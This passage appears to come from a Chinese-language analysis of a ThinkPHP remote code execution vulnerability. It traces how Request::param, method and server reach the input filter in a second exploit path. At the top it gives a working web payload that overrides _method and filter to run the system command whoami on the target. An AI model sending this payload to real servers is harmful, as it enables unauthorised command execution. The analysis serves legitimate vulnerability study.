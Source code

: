 ```
http://127.0.0.1/index.php?s=captcha

_method=__construct&filter[]=system&method=get&get[]=whoami
```

## 过程复现(exp2)

攻击链的前面基本相同,只有调用`Request::input`方法的地方不同而进入不同分支

我们看到`Request::param`方法

```php
public function param($name = '', $default = null, $filter = '')
    {
        if (empty($this->mergeParam)) {
            $method = $this->method(true);
            // 自动获取请求变量
			...
            $this->param      = array_merge($this->param, $this->get(false), $vars, $this->route(false));
            $this->mergeParam = true;
        }
        ...
        return $this->input($this->param, $name, $default, $filter);
    }
```

注意这一个`$this->method(true);`

`Request::method`



```php
	public function method($method = false)
    {
        if (true === $method) {
            // 获取原始请求类型
            return $this->server('REQUEST_METHOD') ?: 'GET';
        } 
        ...
    }
```

它会调用`Request::server`,而这个方法也会调用`Request::input`

```php
public function server($name = '', $default = null, $filter = '')
    {
        if (empty($this->server)) {
            $this->server = $_SERVER;
        }
        if (is_array($name)) {
            return $this->server = array_merge($this->server, $name);
        }
        return $this->input($this->server, false === $name ? false : strtoupper($name), $default, $filter);
    }
```
